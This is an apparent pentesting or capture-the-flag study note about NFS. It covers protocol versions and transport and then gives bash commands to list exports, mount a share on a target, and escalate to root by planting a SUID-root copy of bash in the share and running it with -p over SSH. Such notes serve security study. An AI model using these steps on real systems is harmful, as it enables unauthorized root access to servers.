 Network File System is like mounting a device, except this device is connected through the network instead of physically.
https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html

Version 2 and 3 coexists. (well V4 also exists ^^')
If both client and server can use version 3, they do. Else they use version 2.
`-vers` can be used to force a specific version.

By default, it uses a connection-oriented protocal (e.g. TCP), cf `/etc/netconfig`. If none are supported by both client and server, UDP will be used.

The server checks the user has the permissions obviously.
Accessing a file is done through an RPC call, with file handle, name of the file, user ID and group ID.

```bash
# List FOLDER_TO_MOUNT
/usr/sbin/showmount -e TARGET_IP

# -t nfs = type of mount
# -nolock = do not use NLM locking
sudo mount -t nfs TARGET_IP:FOLDER_TO_MOUNT PATH_TO_LOCAL_FOLDER -nolock

# Escalation priviledge idea
# Send a file with SUID bit set (for example a specific /bin/bash)
# Then connect on the server and execute this executable.
cd PATH_INSIDE_NFS
cp /bin/bash .
sudo chown root ./bash
sudo chmod +s ./bash # also need executable
ssh TARGET_IP -i PATH_TO_id_rsa
./bash -p # -p to persists the permissions
```